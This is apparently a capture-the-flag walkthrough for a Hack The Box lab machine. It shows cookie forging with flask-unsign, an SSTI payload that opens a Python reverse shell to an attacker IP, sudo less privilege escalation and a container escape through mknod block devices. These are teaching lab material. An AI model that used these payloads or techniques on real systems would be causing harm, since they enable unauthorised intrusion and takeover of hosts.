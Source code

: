 # Wand Permit

## User flag

### Enumeration
First things first, nmap scan returns only 2 ports open: `80 http` and `5432 postgresql`.
Now, I'll go poke around the webserver, meanwhile I started a gobuster search on the url which returned:
```bash
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.229.188
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/12/02 14:28:12 Starting gobuster in directory enumeration mode
===============================================================
/search               (Status: 302) [Size: 197] [--> login]
/logout               (Status: 302) [Size: 197] [--> login]
/login                (Status: 200) [Size: 1445]
/app                  (Status: 302) [Size: 197] [--> login]
/meetings             (Status: 302) [Size: 197] [--> login]
/forgotpassword       (Status: 200) [Size: 1245]
/verification         (Status: 302) [Size: 197] [--> login]
```
As we can see we are always redirected to login page.
The nmap script also returns the presence of `robots.txt`, which shows 1 disallowed entry: `/static/CHANGELOG.txt`:
![CHANGELOG](./changelog.png)

We can see some usefull info:
On version 2.3.0 it has been added the manifest plugin, with a bit of research i found that this plugin saves its configuration file in /static/manifest.json
![MANIFEST](./manifest.png)

We found 2 js files:
- main-bundle.js
- dev-48644bcc829deeffe29e-bundle.js

![main-bundle](./main-bundle.png)
![dev-bundle](./dev-bundle.png)

In the first file I found an instresting api endpoint `/testing/dev/api/register`, but only developers can access this endpoint. So moving on the second file we can see that the function is preparing a Cookie header, and with some console.log we get the full cookie string: `Cookie: x-debug-key-v3=038663befb1ad868a62035cf5d685adb`.

### Foothold

Now sending a GET request using burp to intercept the packet and adding the just found Cookie string we can access the api endpoint which returned a registration form which we can use to create a user.
![burp](./burp.png)

We can now login with the newly created user and access the pages.
In order to schedule a meeting we need to verify our accounts so looking at verification page it tells us to upload an image with a qr code to do the verification and it gives us an example image: ![wiz](./wizard_id.png)

I just reuploaded the example png and it got me verified. We could also decode the qrcode which returned a base45 encoded string modify it and create a new qrcode to upload.

Then in order to access the meetings page we need to be a staff member. Looking at the traffic with burp we have a session cookie which presumembly is a `flask-session-cookie` because it is a python webserver.

Let's try to unsign it using `flask-unsign`:
```bash
$ flask-unsign --wordlist /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --unsign --cookie "eyJlbWFpbCI6ImRhZHlAZGFkeS5odGIiLCJpZCI6OSwic3RhZmYiOmZhbHNlLCJ2ZXJpZmllZCI6dHJ1ZX0.Y4y_5g.ahgwA_DTg0gnfCF9EVQtwnG0Fls" --no-literal-eval
[*] Session decodes to: {'email': 'dady@dady.htb', 'id': 9, 'staff': False, 'verified': True}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 1261440 attemptsEks
b'sss'
```

Now we can sign our own cookie using the found secret:
```bash
$ flask-unsign --sign --cookie "{'email': 'dady@dady.htb', 'id': 9, 'staff': True, 'verified': True}" --secret 'sss'
eyJlbWFpbCI6ImRhZHlAZGFkeS5odGIiLCJpZCI6OSwic3RhZmYiOnRydWUsInZlcmlmaWVkIjp0cnVlfQ.Y473Dw.uHR7TX6TNpYG9hwWv9DGFqw_Axk
```

We can now access the meetings page. On this page there is only a user search box which returns the output of the searched string. Therefore I tryed with a simple SSTI payload `http://10.129.229.188/meetings?email={{7*7}}` which returned 49.

### User Flag
Querying for subclasses it returns Popen so we have RCE and we can get a reverse shell:
```bash
http://10.129.255.149/meetings?email={{().__class__.__base__.__subclasses__()[397]('python+-c+\'import+socket,os,pty%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.2",4444))%3bos.dup2(s.fileno(),0)%3bos.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bpty.spawn("/bin/sh")\'',shell=True,stdout=-1).communicate()[0].strip()}}
```

We are now inside the machine and judging by the hostname we are inside a container  
```bash
sparkles@d08d143f2369:~/$ cat user.txt
HTB{ef6400e22a00f0f7e9da3a6a6497733}
```

## Root

Looking at intresting permissions `sudo -l` it returns `(sparkles) NOPASSWD: /usr/bin/less`.
According to GTFO bins we can exploit this to gain root access.
```bash
$ sudo less /etc/profile
```
Then by typing `!/bin/bash` we get root shell.

At this point I went down a rabbit hole enumerating all the postgresql container, but eventually I got back at this one thinking carefully.

I searched a lot and at the end I found the answer on HackTricks:
> If you have access as root inside a container and you have escaped as a non privileged user to the host, you can abuse both shells to privesc inside the host if you have the capability MKNOD inside the container (it's by default).
> With such capability the root user within the container is allowed to create block device files. Device files are special files that are used to access underlying hardware & kernel modules. For example, the /dev/sda block device file gives access to read the raw data on the systems disk.
> Docker ensures that block devices cannot be abused from within the container by setting a cgroup policy on the container that blocks read and write of block devices.
However, if a block device is created within the container it can be accessed through the /proc/PID/root/ folder by someone outside the container, the limitation being that the process must be owned by the same user outside and inside the container.

```bash
# On the container as root
cd /
# Crate device
mknod sda b 8 0
# Give access to it
chmod 777 sda

/bin/sh

```
![grep](./grep.png)

### Root Flag
![flag](./flag.png)
